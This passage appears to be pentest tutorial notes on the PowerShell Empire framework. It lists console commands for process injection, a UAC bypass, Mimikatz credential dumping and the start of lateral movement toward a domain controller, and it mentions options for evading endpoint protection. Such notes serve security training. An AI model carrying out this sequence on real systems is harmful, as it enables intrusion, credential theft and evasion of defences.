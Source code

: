 	Once we have chosen our target process, we can inject the payload with the psinject command, and the name of the listener and the target process id as command arguments:
		(Empire: 63WFMDBUS) > psinject http 252
	Unlike th emigration feature in metasploit with meterpreter, once the migration process is completed, the original Empire agent remains active and we need to manually switch to the newly created one (with name WTUE31AV):
		(Empire: 63WFMDBUS) > agents
		(Empire: agents) > interact WTUE31AV
		(Empire: WTUE31AV) >
PowerShell Modules:
	The power of PowerShell and Empire comes from the many modules available. To list all the available modules we can use the usemodule command:
		(Empire: WTUE31AV) > usemodule [TAB] [TAB]
Situational Awareness:
	Let us investigate the get-user module:
		(Empire: WTUE31AV) > usemodule situational_awareness/network/powerview/get_user
	We can explore the options of the module with the info command:
		(Empire: powershell/situational_awareness/network/powerview/get_user) > info
	Important module options are:
		Name
		Module
		Language
		NeedsAdmin (set to true if module needs local admin privileges)
		OpsecSafe (set to true if we wish to avoid to leave behind proofs of compromise to evade endpoint protections machenisms)
		MinLanguageVersion (minimum version of PowerShell required to execute the script)
	Finally, we will run the module with the execute command:
		(Empire: powershell/situational_awareness/network/powerview/get_user) > execute
	To be noted that the situational_awareness category also includes a wide variety of network and port scanners
Credentials and privilege escalation:
	One of the most interesting modules in this group for privilege escalation is the "powerup allchecks" module
		(Empire: powershell/situational_awareness/network/powerview/get_user) > usemodule powershell/privesc/powerup
		(Empire: powershell/privesc/powerup/allchecks) > execute
	Another useful module is the bypassuac_fodhelper module, especially hany if we have a local admin access level. Depending on the Windows version, this module can bypass UAC and launch a high integrity PowerShell Empire agent:
		(Empire: powershell/privesc/powerup/allchecks) > usemodule powershell/privesc/bypassuac_fodhelper
	Before launching this module, we need to configure our listener:
		(Empire: powershell/privesc/bypassuac_fodhelper) > info
		(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http
		(Empire: powershell/privesc/bypassuac_fodhelper) > execute
	Once we have obtained Local Admin privileges on the Windows victim, we can then execute commands that require that integrity leve, such as Mimikatz to dump password hashes. The credentials category contains multiple Mimikatz commands that have been imported into Empire. The following command shows all available credentials modules:
		(Empire: 78PSBD4H) > usemodule credentials/ [TAB] [TAB]
	To be noted that if an "*" is printed aside to a module"s name, that module requires Local Admin integrity level. Let"'s have a closer look at a high integrity module, such as mimikatz/logonpasswords:
		(Empire: 78PSBD4H) > usemodule powershell/credentials/mimikatz/logonpasswords
		(Empire: powershell/credentials/mimikatz/logonpasswords) > execute
	The credentials found by that module are not only printed to screen as output of the command, but also stored in the Empire credentials store, enumerated with the creds command:
		(Empire: powershell/credentials/mimikatz/logonpasswords) > creds
Lateral movement:
	Let's attempt to perform lateral movement and reach the domain controller, that is located on a network that is not directly reachable from our attacker kali machine
	To list all available lateral movement modules:
		(Empire: powershell/credentials/mimikatz/logonpasswords) > usemodule powershell/lateral_movement/ [TAB] [TAB]
	As an example, we will use the invoke_smbexec module: